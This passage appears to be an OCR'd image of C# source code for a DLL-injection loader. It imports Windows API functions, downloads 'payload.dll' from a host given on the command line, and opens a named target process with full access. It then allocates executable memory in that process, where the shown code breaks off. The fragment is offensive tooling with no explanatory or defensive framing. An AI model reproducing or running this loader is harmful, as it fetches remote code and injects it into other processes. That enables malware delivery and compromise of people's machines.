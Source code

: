 ```csharp
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId
    );

    [DllImport(
        "kernel32",
        CharSet = CharSet.Ansi,
        ExactSpelling = true,
        SetLastError = true
    )]
    static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(
        "kernel32.dll",
        CharSet = CharSet.Auto,
        ExactSpelling = true,
        SetLastError = true
    )]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    private static readonly uint PROCESS_ALL_ACCESS = 0x001F0FFF;

    static async Task DownloadFileAsync(string url, string destinationPath)
    {
        using HttpClient httpClient = new HttpClient();

        using HttpResponseMessage response = await httpClient.GetAsync(
            url,
            HttpCompletionOption.ResponseHeadersRead
        );

        response.EnsureSuccessStatusCode();

        using FileStream fileStream = new FileStream(
            destinationPath,
            FileMode.Create,
            FileAccess.Write,
            FileShare.None
        );

        await response.Content.CopyToAsync(fileStream);
    }

    static async Task Main(string[] args)
    {
        string dllName = Path.GetTempPath() + "\\payload.dll";
        string lHost = args[0];
        string payloadUri = "http://" + lHost + "/payload.dll";

        await DownloadFileAsync(payloadUri, dllName);

        string targetProcessName = args[1];
        int targetProcessId =
            Process.GetProcessesByName(targetProcessName).First().Id;
        IntPtr hProcess =
            OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);

        IntPtr addr =
            VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```